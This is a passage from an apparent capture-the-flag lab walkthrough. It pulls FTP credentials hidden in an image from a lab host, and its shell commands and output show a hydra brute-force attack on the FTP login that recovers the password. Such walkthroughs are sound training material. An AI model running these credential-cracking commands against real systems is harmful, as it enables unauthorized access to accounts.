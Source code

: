 ~~~
	</head>
	<body>
		<noscript>Love it when people block Javascript...<br></noscript>
		<noscript>This is happening whether you like it or not... The hint is in the video. If you're stuck here then you're just going to have to bite the bullet!<br>Make sure your audio is turned up!<br></noscript>
		<script>
			alert("Word of advice... Turn off your javascript...");
			window.location = "https://www.youtube.com/watch?v=dQw4w9WgXcQ?autoplay=1";
		</script>
		<video controls>
			<source src="/assets/RickRolled.mp4" type="video/mp4">
		</video>
	</body>
</html>
~~~

Having a close look at the redirections, notice the following page:

~~~
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU [following]
~~~

The `/WExYY2Cv-qU` directory contains a picture that contains interesting strings:

~~~
$ wget http://10.10.188.161/WExYY2Cv-qU/Hot_Babe.png
$ strings Hot_Babe.png
...[SNIP]...
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
...[SNIP]...
~~~

We now have a username (`ftpuser`). And potential passwords. Save as `wordlist.txt`.

# ftp

Let's crack the FTP account with hydra:

~~~
$ hydra -l ftpuser -P files/wordlist.txt -t4 ftp://10.10.188.161 -vv
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-18 18:34:51
[DATA] max 4 tasks per 1 server, overall 4 tasks, 82 login tries (l:1/p:82), ~21 tries per task
[DATA] attacking ftp://10.10.188.161:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[21][ftp] host: 10.10.188.161   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] attack finished for 10.10.188.161 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-18 18:35:48
~~~
